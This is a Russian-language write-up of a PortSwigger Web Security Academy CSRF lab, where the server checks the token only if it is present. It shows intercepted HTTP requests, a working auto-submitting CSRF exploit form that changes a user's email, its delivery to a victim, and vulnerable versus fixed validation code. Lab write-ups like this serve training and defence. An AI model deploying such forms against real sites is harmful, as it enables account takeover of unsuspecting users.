





## Lab: CSRF where token validation depends on token being present
**Платформа:** PortSwigger Web Security Academy  
**Категория:** CSRF  
**Сложность:** Practitioner  
**Дата:** 2025-07-08  

---

## TL;DR
Сервер проверяет CSRF-токен только если он присутствует в запросе.
Если параметр `csrf` удалить полностью — сервер принимает запрос
без какой-либо проверки.

---

## Описание уязвимости
Некорректная реализация CSRF-защиты — сервер проверяет
валидность токена только когда он передан. Если параметр
отсутствует — проверка не выполняется вообще.

```
csrf=верный_токен    →  200 OK
csrf=неверный_токен  →  400 Bad Request
(параметр отсутствует) →  200 OK  ← уязвимость
```

---

## Разведка

### Шаг 1 — Перехватываем запрос смены email
Залогинилась как `wiener:peter`, открыла форму смены email.
В Burp Suite Proxy → HTTP History нашла POST-запрос:

```http
POST /my-account/change-email HTTP/1.1
Host: LAB-ID.web-security-academy.net
Cookie: session=aBcDeFgHiJ...
Content-Type: application/x-www-form-urlencoded

email=test@test.com&csrf=WfF1szMUHhiokx9AHFply5L2xAOfjRkE
```

Отправила в Repeater для тестирования.



### Шаг 2 — Проверяем валидацию токена
В Repeater изменила значение `csrf` на произвольное → отправила.
Сервер вернул 400 — токен проверяется когда присутствует.



### Шаг 3 — Удаляем параметр csrf полностью
В Repeater удалила параметр `csrf` из тела запроса:

```http
POST /my-account/change-email HTTP/1.1
Host: LAB-ID.web-security-academy.net
Cookie: session=aBcDeFgHiJ...
Content-Type: application/x-www-form-urlencoded

email=test@test.com
```

Сервер вернул 200 и сменил email — без токена запрос
принимается без какой-либо проверки.



---

## Эксплуатация

### Шаг 1 — Генерация exploit-формы через Burp Suite Professional
В Repeater правая кнопка мыши на запросе без csrf →
Engagement tools → Generate CSRF PoC.
Включила "Include auto-submit script" → Regenerate.

Burp сгенерировал форму без поля csrf:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a34009c0404b5e1802980b1001f00ca.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test1&#64;mail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```



### Шаг 2 — Размещение на exploit-сервере
Скопировала HTML в поле Body exploit-сервера → Save.

### Шаг 3 — Проверка на себе
Нажала "View exploit" — email сменился. Эксплойт работает.



### Шаг 4 — Атака на жертву
Изменила email на новый → Save → "Deliver to victim".
Email жертвы изменён — лаба решена.
---

## Почему сработало

```
Логика сервера:
  если csrf передан → проверить → если неверный → 403
  если csrf не передан → ничего не проверять → 200

Правильная логика должна быть:
  если csrf не передан → 403
  если csrf передан и неверный → 403
  если csrf передан и верный → 200
```

---

## Итог
Защита реализована по принципу "проверяй только то что пришло".
Атакующему достаточно просто не включать токен в запрос —
сервер сам отключает проверку.

---

## Защита

```python
# Плохо — проверка только если токен присутствует:
if 'csrf' in request.form:
    if request.form['csrf'] != session['csrf_token']:
        abort(403)

# Хорошо — токен обязателен всегда:
csrf_token = request.form.get('csrf')
if not csrf_token or csrf_token != session['csrf_token']:
    abort(403)

# Лучше — SameSite=Strict на куках как дополнительный слой:
# Set-Cookie: session=abc; SameSite=Strict; Secure; HttpOnly
```